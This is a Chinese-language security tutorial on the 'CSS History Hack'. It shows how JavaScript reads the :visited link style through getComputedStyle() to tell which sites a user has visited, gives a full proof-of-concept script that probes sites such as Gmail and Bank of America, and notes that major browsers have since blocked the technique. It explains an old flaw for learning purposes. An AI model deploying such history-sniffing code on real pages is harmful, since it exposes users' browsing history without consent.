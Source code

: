 # CSS History Hack

利用XSS窃取客户隐私

---

## CSS History Hack 介绍

运用一些JavaScript/CSS技巧，黑客能获取用户浏览器的某些历史记录，甚至是在搜索引擎输入的查询字符。该技术最初由[Jeremiah Grossman](http://jeremiahgrossman.blogspot.jp/2006/08/i-know-where-youve-been.html)提出，其原理只是利用了
CSS能定义和控制链接样式的特性。

##Link Style
 
CSS中有四个伪类用来定义链接的样式，分别是：a:link、a:visited、a:active和 a:hover，他们分别表示未访问的、已访问的、激活的和光标悬停
在其上的链接，如下所示：

		a:link {color: #FF0000} 
		a:visited {color: #00FF00}
		a:hover {color: #FF00FF}
		a:active {color: #0000FF}

效果如下图：

![CSS Link Style](img/CSS-1.png)

其中青色的是访问过的网站，红色是未访问过的网站。一般来说，用户每天都会浏览很多网页，这些网页都会被浏览器记录下来，除非用户自己刻意清除，否则历史记录降一直
保存在本地计算机中。倘若攻击者能获取用户浏览器的历史记录或搜索信息，将是一件十分危险的事，攻击者可以在此基础上进一步发起其他攻击，如社会工程学。

##如何获取历史记录

黑客是怎样获取到用户的历史记录呢？这需要用到客户端JavaScript和CSS技术，两种技术结合在一起运用就可以知道某人是否访问过一个任意的URL，这种方式叫做“JavaScript/CSS history hack”。该技术主要利用了[Dom](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model)中的[getComputedStyle()](https://developer.mozilla.org/en/docs/Web/API/window.getComputedStyle)方法来实现。

其原理就是利用CSS能定义访问过的和未访问过的超级链接的样式。由于JavaScript可以读取任何元素的CSS信息，自然能分辨浏览器应用了哪种样式和用户是否访问过该链接。

		<H3>Visited</H3>
		<ul id="visited"></ul>

		<H3>Not Visited</H3>
		<ul id="notvisited"></ul>
		<script type="text/javascript">
		var websites = [
			"http://ha.ckers.org/blog/",
			"http://login.yahoo.com/",
			"http://mail.google.com/",
			"http://mail.yahoo.com/",
			"http://my.yahoo.com/",
			"http://sla.ckers.org/forum/",
			"http://slashdot.org/",
			"http://www.amazon.com/",
			"http://www.aol.com/",
			"http://www.apple.com/",
			"http://www.bankofamerica.com/",
			"http://www.bankone.com/"
		];

		/* Loop through each URL */
		for (var i = 0; i < websites.length; i++) {
			
			/* create the new anchor tag with the appropriate URL information */
			var link = document.createElement("a");
			link.id = "id" + i;
			link.href = websites[i];
			link.innerHTML = websites[i];

			/* create a custom style tag for the specific link. Set the CSS visited selector to a known value, in this case red */
			document.write('<style>');
			document.write('#id' + i + ":visited {color: #FF0000;}");
			document.write('</style>');
			
			/* quickly add and remove the link from the DOM with enough time to save the visible computed color. */
			document.body.appendChild(link);
			var color = document.defaultView.getComputedStyle(link,null).getPropertyValue("color");
			document.body.removeChild(link);
			
			/* check to see if the link has been visited if the computed color is red */
			if (color == "rgb(255, 0, 0)") { // visited
			
				/* add the link to the visited list */
				var item = document.createElement('li');
				item.appendChild(link);
				document.getElementById('visited').appendChild(item);
				
			} else { // not visited
			
				/* add the link to the not visited list */
				var item = document.createElement('li');
				item.appendChild(link);
				document.getElementById('notvisited').appendChild(item);
				
			} // end visited color check if

		} // end URL loop
		</script>

运行结果如下图：

![CSS hack](img/CSS-2.png)

可以看到通过颜色区分了是否访问过，并且使用JavaScript进行罗列结果。Visited部分罗列的是曾经访问过的网站，Not Visited则是没有访问过的网站列表。


##防范攻击

CSS History Hack的防范属于浏览器安全的范畴，目前各大主流浏览器都已经通过限制getComputedStyle这个API封住了这个漏洞。

如下图所示：

![CSS hack](img/CSS-3.png)

尽管CSS可以区分网站是否访问，但是JavaScript却无法获取到正常的返回值。无论是否访问过的URL，返回的color都是未访问的。

##参考

[Privacy and the :visited selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Privacy_and_the_:visited_selector)

[CSS History Hack](http://ha.ckers.org/weird/CSS-history-hack.html)